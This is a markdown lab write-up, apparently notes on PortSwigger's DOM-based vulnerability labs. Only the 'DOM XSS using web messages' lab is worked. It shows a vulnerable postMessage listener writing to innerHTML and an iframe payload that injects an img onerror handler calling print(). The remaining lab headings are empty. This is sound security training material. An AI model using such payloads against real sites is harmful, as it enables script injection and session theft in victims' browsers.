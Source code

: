 # DOM-based vulnerabilities

## Practitioner

### DOM XSS using web messages

### DOM XSS using web messages and a JavaScript URL

This lab demonstrates a simple web message vulnerability. To solve this lab, use the exploit server to post a message to the target site that causes the `print()` function to be called.

----

1. The home page contains an `addEventListener()` call that listens for a web message. 

```html
<script>
    window.addEventListener('message', function(e) {
        document.getElementById('ads').innerHTML = e.data;
    })
</script>
```

2. Create payload:

```html
<iframe src="https://LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```

When the iframe loads, the `postMessage()` method sends a web message to the home page. The event listener, which is intended to serve `ads`, takes the content of the web message and inserts it into the `div` with the ID `ads`. However, in this case it inserts our `img` tag, which contains an invalid `src` attribute. This throws an error, which causes the `onerror` event handler to execute the payload. 

![DOM-based](../../_static/images/dom-based1.png)

3. **Store** the exploit in the exploit server and **Deliver it to the victim**.

### DOM XSS using web messages and JSON.parse

### DOM-based open redirection

### DOM-based cookie manipulation

## Expert

### Exploiting DOM clobbering to enable XSS

### Clobbering DOM attributes to bypass HTML filters
